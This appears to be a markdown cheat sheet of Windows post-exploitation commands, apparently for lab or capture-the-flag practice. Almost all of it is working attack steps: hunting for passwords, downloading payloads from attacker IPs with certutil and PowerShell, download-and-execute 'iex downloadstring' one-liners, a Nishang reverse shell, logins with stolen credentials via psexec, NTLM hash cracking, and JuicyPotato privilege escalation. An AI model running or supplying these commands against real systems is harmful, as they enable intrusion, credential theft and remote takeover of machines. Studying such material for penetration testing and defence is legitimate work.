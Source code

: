 
## System enumeration

### enumerate from meterpreter shell
```
sysinfo
```

### get shell
```
shell
```

### get system info from shell
```
systeminfo
```
this shows us installed date, boot time, hot fixes installed or not.

## User enumeration 

### Find out loggedin user and his privilages
```
whoami
whoami /priv
```

### Find all users on the host
```
net users
```

### Find details of specific user
```
net user janith
```

### Find whos on administrator group
```
net localgroup administrators
```

## Network enumeration

###Find host ip
```
ipconfig
ipconfig /all
```

## Searching for passwords

### Search for passwords
```
findstr /si password *.txt
```

## AV and Firewall enumeration

### Find all the services running
```
sc queryex type= service 
```

### Check firewall info
```
netsh advfirewall firewall dump
netsh firewall show state
```

### metersploit local exploit sugester
```
run post/multi/recon/local_exploit_suggester
```
run this script using the session 

### Run windows exploit suggester using systeminfo
```
python windows-exploit-suggester.py --database 2020-10-12-mssb.xls --systeminfo sysinfo.txt
```

## Downloading files into windows host
first go to c:/temp folder
```
certutil -urlcache -f http://10.10.14.32/temp.exe temp.exe
```

## Download files using powershell
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.1/shell.exe', 'c:\Users\Public\Downloads\shell.exe')"
```

## Windows subsystem for linux

### Search for bash or wsl
```
where /R C:\windows bash.exe
where /R C:\windows wsl.exe
```
If you found connect to linux sub folder and search for history.

## Use credentials to login using psexec.py
```
psexec.py USER:PASSWORD@DOMAIN
smbexec.py USER:PASS@DOMAIN
wmiexec USER:PASS@DOAMIN
```

## connect to SMB using credentials
```
smbclient \\\\IP\\FOLDER -U USER
```

## SAM file path
```
C:\Windows\System32\Config
```

## Crack windows hash using hashcat
```
hashcat -a 0 -m 1000 cred.hash rockyou.txt --force
```

## Imporsanate privilage escalate

### Search for privilages
```
whoami /priv
```

### Use this command to search meterpreter session
```
getprivs
```

## These privilages are vulnerable to juicypotato attacks
```
SeImporsanatePrivilage Enable
SeAssignPrimaryToken Enable 
```

## JuicyPotato Exploit
download the executable from
```
https://github.com/ohpe/juicy-potato/releases
```
Upload file
```
(new-object net.webclient).downloadfile('http://10.10.14.45:5555/JuicyPotato.exe', 'C:\Users\Public\Downloads\jp.exe')
```
Create a shell.bat file
```
powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.7:5555/shell-2.ps1')
```

copy clsid from here
```
https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_10_Pro
```
run juicy potato
```
./jp.exe -t * -p shell.bat -l 4444
./jp.exe -t * -p shell.bat -l 4444 -c "{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381}"
```


## Use nishang script to gain reverse shell
```
cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 .
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.45 -Port 1234
powershell -c iex(new-object net.webclient).downloadstring(‘http://10.10.14.45:5555/shell.ps1')
```

## Running powershell from cmd
```
cmd /c powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.7:5555/shell.ps1')
```

### Download PowerUp.ps1 to host
```
iex(new-object net.webclient).downloadstring('http://10.10.14.57/PowerUp.ps1')
```
### then run
```
Invoke-AllChecks
```
